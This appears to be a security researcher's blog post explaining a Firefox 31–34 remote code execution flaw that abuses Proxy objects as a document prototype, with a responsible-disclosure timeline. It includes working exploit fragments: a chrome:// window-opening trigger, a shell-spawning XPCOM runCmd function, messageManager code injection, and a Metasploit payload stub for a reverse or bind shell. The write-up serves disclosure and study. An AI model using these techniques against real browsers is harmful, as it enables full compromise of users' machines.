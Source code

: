 ```yaml
---
layout: post
title: "Adventures in Browser Exploitation: Firefox 31 to 34 RCE"
---
```


A few months ago, I was testing some Javascript code in Firefox involving Proxies. Proxies are a neat ECMAScript 6 feature that Firefox has had implemented for some time now. Proxy objects allow transparent interception of Javascript's normal get-/set-property pattern:

    var x = {};
    var p = Proxy(x, {
      get: function() {
        console.log('getter called!');
        return 'intercepted';
      },
      set: function() {
        console.log('setter called!');
      }
    });

    console.log(p.foo);
    p.bar = 1;

When run, the above code will print:

    > getter called!
    > intercepted
    > setter called!

This is very useful to Javascript programmers as it allows for the implementation of the Ruby-style `method_missing` catch-all method. However, there are security implications; the W3C spec often requires objects from untrusted Javascript to be passed to privileged native code. Getters and setters can allow unprivileged code to run in unexpected ways *inside* of the privileged native code itself, at which point security checks can start to break. One example of this is geohot's [2014 Chrome ArrayBuffer memory corruption bug](https://code.google.com/p/chromium/issues/detail?id=351787), which tricked native code operating on the buffer by defining a dynamic getter method on the ArrayBuffer's `length` property (there is a good writeup [here](http://researchcenter.paloaltonetworks.com/2014/12/google-chrome-exploitation-case-study/)).

So the presence of Proxy objects in Firefox mainstream warrants some investigation. After playing with the implementation, some problems were apparent in how privileged code would interact with Proxy objects that were acting as the `prototype` of another object. For example, the following line would hang the browser indefinitely:

    document.__proto__ = Proxy.create({getPropertyDescriptor:function(){ while(1) {} }});

I played with it some more but could not find a way to abuse the problem further. I reported this to Mozilla as bug `1120261`, hoping that someone would investigate. After some back-and-forth I found out that the problem was already fixed in the 35.0 branch, so I put the issue out of my mind.

### The breakthrough

A thought struck one day, perhaps the getter is being called back in a different environment. I decided to test this theory by attempting to open a window with chrome privileges: such an operation should not be permitted by unprivileged code. I gave it a shot:

    var props = {};
    props['has'] = function(){
      var chromeWin = open("chrome://browser/content/browser.xul", "x")();
    };

    document.__proto__ = Proxy.create(props)

I loaded the page and an alert for "attempting to open a popup window" appeared. This was a good sign, as it meant the `chrome://` URL was being allowed to load, and was stopped only by the popup blocker. Which meant... clicking anywhere on the page opened a `chrome`-privileged URL.

### What is `chrome://`?

Let's back up a bit. Firefox, like many other browsers, has a notion of *privileged zones*: different URI schemes have different powers. Chromium does this too (`chrome://downloads`), and Safari to some extent (`file://` URLs). However, Firefox's `chrome://` scheme is rather powerful - the Javascript executing under an origin with a scheme of `chrome://` has the full privileges of the browser. In the presence of the right vulnerability, attackers can use this to get a fully-working shell on the user's machine.

If you want to test this, open the Developer Console (meta-alt-i) and browse to `chrome://browser/content/browser.xul`. Run the following code (linux/osx only):

    function runCmd(cmd) {
        var process = Components.classes["@mozilla.org/process/util;1"]
                  .createInstance(Components.interfaces.nsIProcess);
        var sh = Components.classes["@mozilla.org/file/local;1"]
                 .createInstance(Components.interfaces.nsILocalFile);
        sh.initWithPath("/bin/sh");
        process.init(sh);
        var args = ["-c", cmd];
        process.run(true, args, args.length);
    }

    runCmd("touch /tmp/owned");

You should have a file in `/tmp/owned`.

So if an attacker can find a way to inject code into this window, like we did with the Developer Console, your entire user account is compromised.

### Injecting code

Gaining a reference to a `chrome://` window is only half the battle. [Same Origin Policy](http://en.wikipedia.org/wiki/Same-origin_policy) prevents `attacker.com` from interacting with the code in `chrome://browser`, so we will need to find a way around this. Here I got really lucky; I tried a technique I had used when implementing our [22.0-27.0 WebIDL exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/browser/firefox_webidl_injection.rb).

Here's the technique: by providing the `chrome` option to `open()`, when `open` is called from a chrome-privileged docshell, the provided URL is loaded as the top-level "frame" of the new browser window; that is, there is no skin or interface document that encapsulates our document. A top-level frame has a `messageManager` property, which is accessible to same-origin code running in other `chrome` docshells:

    // abuse vulnerability to open window in chrome://
    var c = new mozRTCPeerConnection;
    c.createOffer(function(){},function(){
      var w = window.open('chrome://browser/content/browser.xul', 'top', 'chrome');

      // we can now reference the `messageManager` property of the window's parent
      alert(w.parent.messageManager)
    });

[MessageManager](https://developer.mozilla.org/en-US/Firefox/Multiprocess_Firefox/The_message_manager) is a privileged Firefox API for sending messages between processes. One useful detail is that it allows injecting Javascript code into the process remotely using the `loadFrameScript` function.

### Gaining RCE

From here, gaining remote code execution is trivial, thanks to the Firefox privileged payloads included in Metasploit. Just include the `Msf::Exploit::Remote::FirefoxPrivilegeEscalation` mixin, and the `run_payload` method will return a configured piece of Javascript code that will call Firefox's XPCOM APIs to spawn a reverse or bind shell on the target. JSON is used here to avoid encoding issues:

    # Metasploit module (ruby code)
    js_payload = run_payload
    js = %Q|
        var payload = #{JSON.unparse({code: js_payload})};
        injectIntoChrome(payload.code);
    |
    send_response_html(cli, "<script>js</script>")

 To see the full exploit source code, see [LINK HERE].

### Timeline

- Jan 11, 2015: Originally reported to Mozilla as a low-severity DoS, which turned out to be already patched in trunk
- Jan 13, 2015: Firefox 35.0 shipped with patch
- Jan 20, 2015: RCE implications discovered and disclosed to Mozilla
- Feb 04, 2015: Disclosure to CERT/CC
- Feb 13, 2015: Mozilla updates their [original security advisory](CVE-2014-8636) to note possibility of RCE
- Mar 23, 2015: Public disclosure

All-in-all I was impressed with Mozilla's response. Plus they sent me a bug bounty, for discovering an RCE exploitation vector of *an already-patched bug*. Nice.
